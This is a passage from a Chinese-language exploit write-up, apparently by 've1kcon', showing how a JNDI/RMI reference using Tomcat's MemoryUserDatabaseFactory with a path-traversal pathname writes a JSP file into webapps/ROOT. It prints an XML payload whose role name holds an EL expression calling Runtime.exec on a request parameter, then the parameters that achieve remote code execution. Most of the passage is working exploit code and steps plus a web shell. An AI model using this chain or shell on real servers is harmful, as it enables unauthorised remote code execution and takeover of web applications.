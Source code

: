 ```
                true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
        ref.add(new StringRefAddr("pathname", "http://127.0.0.1:8888/../../webapps/ROOT/test.jsp"));
        ref.add(new StringRefAddr("readonly", "false"));
        return ref;
    }
}
```  
  
  
找一个地方，创建 webapps 和 ROOT 目录，里面放上面的 test.jsp  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNdbNOIQ6WsP8Ex2PqBIrVnobJNVHxzA36kQdEUEUt8N1zawsuiadROict949dpFGDaPXz9s0HU4r8g/640?wx_fmt=png&from=appmsg "")  
  
在 webapps 上级目录也就是上图的 mcms 目录下启动一个 http 服务，8888 端口。启动 rmi 服务，运行绑定对象  
  
上传 xml 文件。同样是上面的 Post，不出意外会得到  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNdbNOIQ6WsP8Ex2PqBIrVn0f6R6LDgjoYp8QLE3dlWPorqoRvnicOicAnUD05UWdkfiafAMmGZYPDfg/640?wx_fmt=png&from=appmsg "")  
  
test.jsp 就写进到 ROOT 目录了，查看 test.jsp  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNdbNOIQ6WsP8Ex2PqBIrVnuT0dft1ErdoJpa2SXgcbyzFbKBmqMxhSEpIFe3ict0NSVMxzY77BXTQ/640?wx_fmt=png&from=appmsg "")  
  
发现好像编码了，调试 tomcat 代码，发现 tomcat 版本高了，会对 xml 进行编码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNdbNOIQ6WsP8Ex2PqBIrVnFOrSCGRX9jpZIFeR0CYJaahoLmwEJhU8dKTPfDgIR7eXfR9leETZEQ/640?wx_fmt=png&from=appmsg "")  
  
最后，将 test.jsp 的执行换成了 el 表达式  
```
<?xml version='1.0' encoding='utf-8'?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <role rolename="${pageContext.request.getClass().forName(param.n).getMethod(param.m).invoke(null).exec(param.code)}"/>
</tomcat-users>
```  
  
  
重新执行上述流程  
  
得到新的 jsp  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNdbNOIQ6WsP8Ex2PqBIrVnbkg22N1XFicWT9icyXV0n7qfHGZptUGk4e1O3T2N8nbAiaqlFQar46j7w/640?wx_fmt=png&from=appmsg "")  
  
加入参数 n=java.lang.Runtime&m=getRuntime&code=calc  
，成功 rce  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNdbNOIQ6WsP8Ex2PqBIrVn0eC62l2kfgh9D5tpBGIaHVXBb16LHXicqdErSt5mVu4xFjjTA6o7Mibg/640?wx_fmt=png&from=appmsg "")  
  
【作者】：ve1kcon  
  
